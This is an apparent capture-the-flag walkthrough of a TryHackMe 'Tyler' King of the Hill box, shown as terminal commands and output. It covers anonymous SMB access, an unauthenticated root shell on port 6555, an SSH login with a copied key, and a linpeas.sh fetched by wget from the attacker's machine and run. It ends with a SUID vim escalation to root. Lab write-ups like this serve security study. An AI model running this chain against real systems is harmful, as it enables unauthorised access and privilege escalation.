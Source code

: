 # Tyler.THM - Koth



# enum

```bash
nmap tyler.thm -p- 
nmap tyler.thm -sV -sC 
nmap tyler.thm 
```

we got 2 http servers, 80 8080
```bash 
gobuster dir -u tyler.thm:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
gobuster dir -u tyler.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

we also get some smb ports and unknown port on 6555.
lets start enum the smb to see if there are any shere's that we can enter

# SMB

```bash
smbclient -L \\\\tyler.thm\\

Enter WORKGROUP\root's password:  # NO PASSWORD JUST PRESS ENTER
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	public          Disk      
	IPC$            IPC       IPC Service (Samba 4.9.1)
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	SAMBA                TYLER
```
lets check all the folders

```bash
$ root@kali:# smbclient \\\\tyler.thm\\print$

Enter WORKGROUP\root's password: 
Anonymous login successful
tree connect failed: NT_STATUS_ACCESS_DENIED

$ root@kali:~/Desktop/CTF/THM/#KOTH/tyler# smbclient \\\\tyler.thm\\IPC$

Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*

$ root@kali:# smbclient \\\\tyler.thm\\public

Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Mar 25 17:09:50 2020
  ..                                  D        0  Wed Mar 25 17:02:28 2020
  flag.txt                            N       33  Wed Mar 25 17:08:05 2020
  alert.txt                           N       50  Wed Mar 25 17:09:50 2020

		13092864 blocks of size 1024. 8517996 blocks available
smb: \> mget *
Get file flag.txt? 
Get file alert.txt? 
smb: \> 
```

so we got a flag but still we are far off...
in the alert.txt file we get some code that i think  its a rabbit hole..

### port 6555

from out nmap scan we found port 6555. lets try to see what it contains

```bash
nc tyler.thm 6555
whoami
root
```

as simple as that we got outself a root shell on the machine! lets declare a king.
```bash
cd /root
ls -al

total 24
dr-xr-x---  3 root root 119 Mar 25 15:25 .
dr-xr-xr-x 17 root root 244 Mar 25 09:59 ..
-rw-r--r--  1 root root  18 Dec 28  2013 .bash_logout
-rw-r--r--  1 root root 176 Dec 28  2013 .bash_profile
-rw-r--r--  1 root root 176 Dec 28  2013 .bashrc
-rw-r--r--  1 root root 100 Dec 28  2013 .cshrc
-rw-r--r--  1 root root  33 Mar 25 15:25 flag.txt
drwx------  2 root root  61 Mar 25 15:23 .ssh
-rw-r--r--  1 root root 129 Dec 28  2013 .tcshrc
```

what? no king.txt?
so this is a "rabbit hole" somewhat and this shell is seperated from the main machine somehow
I tried to enumerate and see if i can gather some info on the main machine

```bash
cd /root/.ssh
cat id_rsa.pub

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+0qTaj8PluXd4pyYNMGPLbP2ZTwh4I8hVCNnkzaL7oXXbZolVtehOCawy+DOgnccIEHUqMgEvOEEs+2u/+UpWxL7t1QSnyLvMrMKAnLXBQDzr2uJx7Ljhli8wv7nIX83EcpzU7M2bViGGpXhxOAQa6Ud7pRVXekh71qZI22I7Zg/NPPSzsMbm0CQrJ9Q+J2kugu/EK4VQsR1COMs+7ssd0gkHQ8PooLHr1+x4Trf+DRb/H02hjl1TaZ589CixlQQNUfHzLjXnnuE7qslcX8c6Oe7sv7e808M87ZokdhrifWZrfwCxaZ54D6xWYdSScYzMKqLh0HQxO3KokicRgTJx tdurden@tyler
```

ok! we got a user "tdurden" and his id_rsa files
so from a state that i thought that this is defenetly a rabbithole im now sure that this is the way to go.

I'll copy id_rsa to my own machine and try to login
```bash
chmod 600 id_rsa

ssh tdurden@10.10.106.164 -i idrsa 
Last login: Mon Jul 13 05:55:42 2020 from ip-10-9-6-216.eu-west-1.compute.internal


[tdurden@tyler ~]$ 
[tdurden@tyler ~]$ 
[tdurden@tyler ~]$ 
[tdurden@tyler ~]$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
tdurden:x:1000:1000:Tyler Durden:/home/tdurden:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
narrator:x:1002:1002::/home/narrator:/bin/bash
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
nginx:x:997:994:Nginx web server:/var/lib/nginx:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
librenms:x:996:993::/opt/librenms:/bin/bash

```
YES! we got a shell on the 'main' machine
now we can enumerate some more.
I'll try to get linpeas

```bash
cd /tmp
wget 10.9.6.216/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

we got from linpease a SUID on vim. this must be it!
lets search for SUID shell on 'GTFO bins'

https://gtfobins.github.io/

```bash
vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
^[[2;2R^[]11;rgb:2929/2d2d/2e2e^Gsh-4.2# 2R11;rgb:2929/2d2d/2e2ewhoami
sh: 2R11: command not found
sh: rgb:2929/2d2d/2e2ewhoami: No such file or directory
sh-4.2# whoami
root
sh-4.2# 
```

<!---
flags:

decoy machine /root/flag.txt
main machine 
/home/user/flag.txt
/root/root.txt

smb tyler.thm/public flag.txt + alert.txt
--->
